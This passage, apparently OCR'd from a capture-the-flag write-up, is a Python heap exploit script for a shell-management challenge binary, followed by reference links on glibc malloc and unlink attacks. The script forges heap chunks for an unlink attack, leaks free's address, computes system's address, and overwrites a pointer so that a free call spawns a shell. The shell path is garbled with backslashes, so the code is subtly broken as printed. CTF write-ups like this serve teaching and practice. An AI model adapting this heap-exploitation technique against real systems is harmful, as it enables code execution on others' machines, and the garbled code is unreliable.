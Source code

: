```
    t.writeline('1')
    m=t.read_until('*')[:-1]
    t.read_until('>')
    return m

def hack():
    for i in range(4):
        newshell(0x90,'A'*0x8f)
    payload=l64(0)+l64(0xa0)
    payload+=l64(0x6016d0-24)+l64(0x6016d0-16)
    payload+='B'*0x70
    payload+=l64(0x90)+l64(0xa0)
    editshell(0,len(payload),payload)
    delshell(1)
    t.gdb_hint()
    payload2='A'*0x8+l64(1)+l64(8)+l64(0x601600)# node[0]
    payload2+='A'*3*0x8+l64(1)+l64(8)+l64(0x601610)# node[2]
    payload2+=l64(1)+l64(8)+l64(0x601720)# node[3]->/bin/sh
    payload2+='\\bin\\sh\0'
    editshell(0,len(payload2)+1,payload2)
    t.gdb_hint()
    # t.read_until('>')
    l=listshell()
    temp=l[l.index(':')+2:l.index('\n')]
    free_addr=int(temp.decode('hex')[::-1].encode('hex'),16)
    system_addr=free_addr-0x2a500
    print hex(system_addr)
    editshell(0,8,l64(system_addr))
    t.gdb_hint()
    delshell(3)
    t.interact()

t.read_until('>')
hack()
```

参考:

malloc.c源码:
([https://code.woboq.org/userspace/glibc/malloc/malloc.c.html](https://code.woboq.org/userspace/glibc/malloc/malloc.c.html))

heap unlink:
([https://sploitfun.wordpress.com/2015/02/26/heap-overflow-using-unlink/](https://sploitfun.wordpress.com/2015/02/26/heap-overflow-using-unlink/))

Heap struct:
([https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/))